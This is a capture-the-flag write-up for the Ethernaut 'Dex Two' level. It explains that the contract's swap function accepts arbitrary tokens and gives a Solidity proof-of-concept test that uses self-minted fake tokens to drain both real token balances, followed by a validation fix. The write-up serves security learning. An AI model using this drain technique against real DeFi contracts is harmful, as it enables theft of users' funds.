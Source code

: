 # Level 23 - Dex Two

## Objectives

- Drain all balances of `token1` and `token2` from the `DexTwo` contract.

## Contract Overview

`DexTwo` is a contract or decentralized exchange platform that deals with token swapping and exchange. The `DexTwo` contract has a balance of 100 tokens each.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/DexTwo_slither.png)

## Finding the weak spots

The weak spot of the contract is function `swap()` that is missing checking that `from` and `to` are actually the whitelisted `token1` and `token2` tokens handled by the `DexTwo` contract.

```solidity
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
```

This means that there is a vulnerability in the `swap` function that allows an attacker to sell any arbitrary `from` token and receive the real `to` token from the decentralized exchange. As a result, the attacker can create a new ERC20 token and use it to gain some other tokens for free, without actually sending any real tokens to the `DexTwo`.

The idea is to create a new ERC20 token that is entirely owned and managed by the attacker, which means they can mint or burn tokens at will. The attacker can then use this new token to call the swap function and receive some other tokens in return without actually providing any real tokens.

To drain the `token1` and `token2` from the `DexTwo` contract, the attacker needs to find the correct amount of the fake token to sell to receive 100 `token1`. The g`etSwapAmount` function is used to calculate the price of the swap. The attacker can use this function to determine the amount of fake token to sell to receive 100 `token1`. By doing some math, the attacker can determine the correct amount of fake token to sell to drain the `token1` and `token2` from the `DexTwo` contract with just one call to the swap function.

`100 token1 = amountOfFakeTokenToSell * 100 / DexBalanceOfFakeToken`

So to gain 100 token1 `amountOfFakeTokenToSell` and `DexBalanceOfFakeToken` has to be equal to 1.

## Potential attack scenario (hypothesis)

The idea is to create a new ERC20 token that is entirely owned and managed by the attacker, which means they can mint or burn tokens at will. The attacker can then use this new token to call the swap function and receive some other tokens in return without actually providing any real tokens.

## Plan of the attack and calculations

1. Attacker creates his own two ERC20 tokens and mint himself (`msg.sender`) 10 `fakeToken1` and 10 `fakeToken2`.
2. Attacker approves the `DexTwo` to spend 1 of his `fakeToken1` and 1 of his `fakeToken2`.
3. Attacker transfers 1 `fakeToken1` and 1 `fakeToken2` to `DexTwo` contract so that the price ratio is balanced to 1:1 when swapping.
4. Attacker calls `swap()` function twice (for each token) from `DexTwo` contract.
5. Attacker drains all balances of `token1` and `token2` from the `DexTwo` contract.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/23-DexTwo.t.sol))

```solidity
     // 1. Attacker creates his own two ERC20 tokens and mint himself (`msg.sender`) 10 `fakeToken1` and 10 `fakeToken2`.
        SwappableTokenTwo fakeToken1 = new SwappableTokenTwo(
            address(level),
            "Fake Token1",
            "FT1",
            10
        );

        SwappableTokenTwo fakeToken2 = new SwappableTokenTwo(
            address(level),
            "Fake Token2",
            "FT1",
            10
        );
        emit log_named_uint(
            "Balance of token1 before attack",
            level.balanceOf(address(token1), address(level))
        );
        emit log_named_uint(
            "Balance of token2 before attack",
            level.balanceOf(address(token2), address(level))
        );

        // 2. Attacker approves the `DexTwo` to spend 1 of his `fakeToken1` and 1 of his `fakeToken2`.
        fakeToken1.approve(address(level), 10);
        fakeToken2.approve(address(level), 10);

        // 3. Attacker transfers 1 `fakeToken1` and 1 `fakeToken2` to `DexTwo` contract so that the price ratio is balanced to 1:1 when swapping.
        fakeToken1.transfer(address(level), 1);
        fakeToken2.transfer(address(level), 1);

        // 4. Attacker calls `swap()` function twice (for each token) from `DexTwo` contract.
        level.swap(address(fakeToken1), address(token1), 1);
        level.swap(address(fakeToken2), address(token2), 1);

        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_named_uint(
            "Balance of token1 after attack",
            level.balanceOf(address(token1), address(level))
        );
        emit log_named_uint(
            "Balance of token2 before attack",
            level.balanceOf(address(token2), address(level))
        );

        // Assert that we have drained the Dex contract
        assertEq(
            token1.balanceOf(address(level)) == 0 &&
                token2.balanceOf(address(level)) == 0,
            true
        );
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/DexTwo.png)

## Recommendations

- There must be proper validations on the tokens allowed for swapping by the `DexTwo` for example we should use check: `require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");`
- If user-listed tokens are allowed to be swapped, careful attention should be paid to business-critical logic so that they can't exploit the contract

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-22-solution-dex-two)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
